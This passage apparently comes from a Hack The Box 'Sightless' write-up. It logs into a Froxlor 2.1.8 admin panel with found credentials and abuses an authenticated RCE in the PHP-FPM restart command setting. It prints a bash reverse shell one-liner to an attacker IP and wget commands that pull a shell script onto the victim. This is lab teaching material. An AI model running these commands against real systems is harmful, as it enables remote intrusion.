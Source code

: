 Let's utilize the credentials and log in as Admin to the `Froxlor` login panel.

`admin:ForlorfroxAdmin`

![Froxlor Dashboard](/assets/images/writeups/Sightless-HTB/19.png)

The dashboard revealed that the version of `Froxlor` was `2.1.8`. While browsing, I came across `PHP-FPM`. Let's understand what `PHP-FPM` does.

FPM (FastCGI Process Manager) is a primary PHP FastCGI implementation, containing features that are mostly useful for heavily loaded sites.

FPM requires the `php-fpm restart command`, the `configuration directory of php-fpm`, and the `process manager control`. Let's combine the `Froxlor` version and `PHP-FPM` and search to see if any vulnerabilities exist for this version.

I searched for `Froxlor RCE` and I have found this blog [__Disclosing Froxlor V2.x Authenticated RCE as Root Vulnerability via PHP-FPM__](https://sarperavci.com/Froxlor-Authenticated-RCE/){:target="_blank"}.

The vulnerability allows running arbitrary commands in the `php-fpm restart command` parameter. In the blog above, it is explained that there are a couple of steps to follow in order to exploit the vulnerability.

__1.__ `First` - Create a one liner reverse shell

```bash
bash -i >& /dev/tcp/<Attacker IP>/<Attacker Listener Port> 0>&1
```

__2.__ `Second` - Transfer this reverse shell (`shell.sh`) to victim machine (`10.10.11.32`)

```bash
 wget http://<Attacker IP address>/shell.sh
 chmod +x shell.sh
 mv shell.sh /tmp
```

